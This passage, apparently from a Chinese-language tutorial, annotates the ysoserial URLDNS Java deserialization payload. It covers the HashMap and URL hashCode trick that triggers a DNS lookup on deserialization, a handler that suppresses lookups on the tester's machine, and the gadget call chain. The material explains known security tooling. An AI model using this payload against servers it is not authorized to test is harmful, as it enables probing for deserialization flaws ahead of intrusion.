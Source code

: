 ```java
        ht.put(u, url); // 值可以是任何可序列化的内容，这里用 URL 作为键就是为了触发 DNS 查找

        // 在之前的 put 操作中，URL 的 hashCode 已计算并缓存，重置后下次调用 hashCode 时会再次触发 DNS 查找
        Reflections.setFieldValue(u, "hashCode", -1); 

        return ht;
    }

    public static void main(final String[] args) throws Exception {
        // 调用 PayloadRunner 来运行测试该 payload，传入当前类和命令行参数
        PayloadRunner.run(URLDNS.class, args);
    }

    /**
     * <p>这个 URLStreamHandler 的实例用于在创建 URL 实例时避免任何 DNS 解析。DNS 解析是用于漏洞检测的。
     * 在使用序列化对象之前，不要去探测给定的 URL，这一点很重要。</p>
     *
     * <b>潜在的假阴性情况：</b>
     * <p>如果 DNS 名称先从测试人员的计算机解析，目标服务器在第二次解析时可能会命中缓存（导致无法正常检测到漏洞）。</p>
     */
    static class SilentURLStreamHandler extends URLStreamHandler {

        /**
         * 重写打开连接的方法，直接返回 null，避免实际建立连接和触发 DNS 解析
         * @param u 要打开连接的 URL 对象
         * @return 返回 null，不进行实际的连接操作
         * @throws IOException 抛出 IO 异常（实际这里重写后一般不会真正抛出，只是遵循方法签名）
         */
        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }

        /**
         * 重写获取主机地址的方法，直接返回 null，避免触发 DNS 解析来获取主机地址
         * @param u 要获取主机地址的 URL 对象
         * @return 返回 null，不进行实际的 DNS 解析获取主机地址操作
         */
        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
}
```

调用链已经标注了：

```java
HashMap.readObject()
 *       ↓
 *       HashMap.putVal()
 *         ↓
 *         HashMap.hash()
 *           ↓
 *           URL.hashCode()
```
